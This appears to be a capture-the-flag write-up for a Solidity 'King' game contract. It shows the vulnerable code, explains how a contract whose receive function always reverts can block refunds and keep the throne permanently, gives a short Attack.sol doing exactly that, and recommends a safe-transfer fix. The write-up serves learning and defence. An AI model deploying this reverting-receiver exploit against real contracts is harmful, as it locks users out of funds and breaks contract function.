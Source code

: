 **Description**
The contract represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! The goal is just to break the game.

* King.sol
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}

```

**Attack Vector**
The contract allows the new King to remain the king and prevents anybody else from taking his spot. This behavior is due to the use of the `transfer` function to transfer the ether.

**Attack Scenario**
Attacker can send the enough amount of ether to the contract to become the new king using an attack contract. and in this contract, they should set a `fallback` function that reverts when the `King` contract is trying to refund his ether to promote a new king.

* Attack.sol
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {

    constructor(address _victim) payable {
        _victim.call{value: msg.value}("");
    }

    receive() external payable {
        revert("LOL");
    }
}
```

**Recommendation**
To fix the issue, we recommend using the `safeTransferETHWithFallback` to prevent reverting the transaction.

```solidity
function _safeTransferETHWithFallback(address to, uint256 amount) internal {
    if (!_safeTransferETH(to, amount)) {
        WETH.deposit{value: amount}();
        WETH.transfer(to, amount);
    }
}
function _safeTransferETH(address to, uint256 amount)
    internal
    returns (bool)
{
    (bool success, ) = to.call{value: amount}(new bytes(0));
    return success;
}
```
